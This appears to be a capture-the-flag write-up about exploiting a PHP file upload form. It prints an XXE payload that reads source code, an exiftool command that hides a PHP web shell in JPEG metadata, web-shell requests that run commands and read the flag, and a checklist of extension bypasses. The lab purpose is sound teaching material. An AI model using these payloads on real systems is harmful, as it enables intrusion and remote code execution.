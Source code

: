 ## **Step-by-Step Walkthrough**

## **Step 1: Identifying the File Upload Mechanism**
- Uploaded a simple `test.php` file to the upload form and observed the response.
- Noticed the application rejected `.php` but accepted files with extensions like `.phar.jpg`.
- Determined that the upload form checks both **file extension** and **MIME type**.

## **Step 2: Discovering the Upload Directory**
- Examined page source and found references to `submit.php`.
- Discovered `.js` file containing more information, including `.php` file.
- Navigated to the new `.php` file, but it didn’t reveal anything directly.

## **Step 3: Using XXE to Extract `upload.php` Source Code**
- Exploited an **XML External Entity (XXE)** vulnerability to extract the new `.php` file:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=.php"> ]>
  <svg>&xxe;</svg>
  ```
- Intercepted the request in **Burp Suite**, modified the file validation logic, and uploaded the `.svg` file.
- Received a **base64-encoded** response, which was decoded using **CyberChef**.
- Learned:
  - Where files are stored.
  - How files are renamed.
  - That the system used **MIME-Type validation**.

## **Step 4: Bypassing MIME-Type Validation**
- Attempted to upload a **JPEG file with a PHP payload**, but the system detected the payload.
- Realized the application used **`mime_content_type()`**, which checks actual file content, not just the extension.
- Instead of using a fake extension, created a **legitimate JPEG file** and embedded the PHP payload using `exiftool`.

## **Step 5: Crafting the Malicious Payload**
1. Created a blank 100x100 white image:
   ```bash
   convert -size 100x100 xc:white image.jpg
   ```
2. Embedded the PHP payload inside the image metadata:
   ```bash
   exiftool -Comment='<?php system($_REQUEST["cmd"]); ?>' image.jpg -o shell.phar.jpg
   ```
3. Uploaded the `shell.phar.jpg` file.

## **Step 6: Exploiting the Uploaded Web Shell**
- Navigated to the correct upload directory based on previous findings:
  ```bash
  /contact/****_********_***********/250330_shell.phar.jpg?cmd=id
  ```
- Verified code execution by running `id`.

## **Step 7: Finding and Reading the Flag**
- Searched for flag files:
  ```bash
  /contact/****_********_***********/250330_shell.phar.jpg?cmd=find / -name flag*.txt
  ```
- Located the flag file and retrieved its contents:
  ```bash
  /contact/****_********_***********/250330_shell.phar.jpg?cmd=cat /******************.txt
  ```

---

## **Summary**
I exploited an insecure file upload by bypassing file extension restrictions, MIME-type validation, and leveraging an XXE vulnerability to gather insights about the server. Using this knowledge, I embedded a PHP web shell inside a valid JPEG file and executed commands remotely to locate and read the flag.

---

### **Key Takeaways**
- **File upload security is often weak**—restrictions on extensions alone are insufficient.
- **MIME-Type validation can be bypassed** by ensuring the file header matches the expected format.
- **XXE vulnerabilities** can be leveraged to read source code, revealing how files are handled.
- **Exploiting metadata** (e.g., `exiftool`) is an effective method to bypass image validation checks.
- **Identifying the upload directory** is crucial for accessing your uploaded malicious file.
- **Understanding file renaming patterns** helps in constructing the correct request.

---

### **Things to Remember for Future Tests**
1. **File Extension Bypass**
   - Try `.phar`, `.phar.jpg`, `.php5`, `.phtml`, `.php.jpg`, etc.

2. **MIME-Type Validation Bypass**
   - Ensure the file header matches the expected format.
   - Use **exiftool** to embed payloads inside images.

3. **Finding the Upload Directory**
   - Check **page source, JavaScript files, and API calls**.
   - Use **XXE, LFI, or directory brute-forcing** if needed.

4. **Code Execution**
   - Use a **web shell** (e.g., `system($_GET['cmd']);`).
   - Test execution with simple commands like `id` or `whoami`.

5. **Post-Exploitation**
   - **Find flag files** with `find / -name flag*.txt`.
   - **Read them** using `cat`.

By systematically approaching file upload vulnerabilities, you can effectively escalate them into full **remote code execution (RCE)**. 🚀
